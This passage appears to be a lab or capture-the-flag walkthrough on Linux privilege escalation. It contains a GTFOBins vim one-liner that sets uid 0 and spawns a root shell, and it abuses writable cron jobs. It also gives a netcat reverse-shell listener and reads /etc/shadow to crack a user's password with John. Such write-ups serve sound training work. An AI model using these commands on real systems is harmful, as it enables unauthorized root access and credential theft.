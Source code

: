 [GTFOBINS](https://gtfobins.github.io/)
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
#### The Flag...
![root](../../files/photos/root.png)

---
# Privilege Escalation: `Cron Jobs`

#### Finding the `cron jobs` in the system
```bash
cat /etc/crontap
```

there are `cron jobs` in:
- `/home/karen/backup.sh`
- `/tmp/test.py`

#### [RevShell](https://www.revshells.com/)
 Go to `revhsell` site and get a code for `python` or `bash` or both what ever you like.
 
 Then put a listener and wait....
```bash
nc -lvnp {port}
``` 

#### Matt Password

Get matt's password by accessing `/etc/shadow` from the rooted `revshell`

![matt](../../files/photos/matt.png)

and crack it by john...

![jo](../../files/photos/jo.png)

---